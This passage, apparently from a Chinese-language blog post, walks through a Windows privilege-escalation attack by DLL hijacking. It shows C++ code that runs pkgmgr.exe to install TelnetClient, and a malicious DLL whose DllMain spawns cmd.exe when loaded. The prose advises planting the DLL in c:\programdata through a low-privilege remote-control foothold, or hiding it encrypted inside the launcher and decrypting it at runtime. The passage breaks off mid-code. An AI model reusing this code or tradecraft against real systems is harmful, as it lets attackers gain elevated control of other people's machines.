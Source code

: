```c++
    }
    printf("begin run pkgmgr.exe");
    getchar();

    if (!ShellExecuteA(NULL, "open", "pkgmgr.exe", "/iu:TelnetClient", NULL, SW_SHOWNORMAL))
    {
        printf("ShellExecute failed (%d)", GetLastError());
        return 1;
    }
    else {
        getchar();
    }

    return 0;
}
```



## 二、DLL

编写恶意dll,dll随便实现点功能，这里写弹窗和起一个cmd；并手动将dll文件写入到一个低权限位置，（这里笔者用的是``c:\programdata\``，实际的攻防场景，可以通过远控低权限上传即可，或者直接把这个dll加密内置到上面的exe里面，运行时解密，随便先丢到一个低权限文件夹即可，这里我们主要测试提权，所以就不整那么麻烦了）

```c++
#include <shellapi.h>
#include<iostream>
#include<windows.h>


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{

    LPCSTR applicationName = "c:\\windows\\system32\\cmd.exe";
    LPSTR commandLine = NULL;

    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);

    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));

    switch (ul_reason_for_call)
    {


    case DLL_PROCESS_ATTACH:
        //ShellExecuteA(NULL, "open", "calc.exe", NULL, NULL, SW_SHOWNORMAL);//奇怪这个不太行，然后换成CreateProcess就可以了
        MessageBoxA(NULL, "tetx", NULL, MB_OK);

        if (!CreateProcessA(
            applicationName,   
            commandLine,       
            NULL,              
            NULL,              
            FALSE,             
            0,                 
            NULL,              
            NULL,              
```